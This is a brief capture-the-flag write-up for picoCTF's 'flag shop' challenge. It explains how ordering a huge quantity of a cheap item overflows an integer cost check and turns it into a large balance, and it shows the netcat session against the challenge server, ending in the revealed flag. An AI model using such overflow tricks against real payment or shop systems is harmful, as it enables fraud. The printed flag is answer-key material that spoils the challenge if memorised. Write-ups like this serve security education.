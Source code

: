 <img width="610" alt="flag_shop_Description" src="https://github.com/sahinyurek/picoCTF-writeups/assets/62119201/ecae723b-1c84-49ea-b421-bff5d504f932">

We don't have enough balance to buy the 1337 flag so we buy the not flag at a very high quantity so that it overflows the int and gives us money instead.

```shell
┌──(xodzk㉿kali)-[~]
└─$ nc jupiter.challenges.picoctf.org 9745
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
1



 Balance: 1100 


Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
99999999999

The final cost is: -1039688580

Your current balance after transaction: 1039689680

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
1



 Balance: 1039689680 


Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_65d67a74}

```
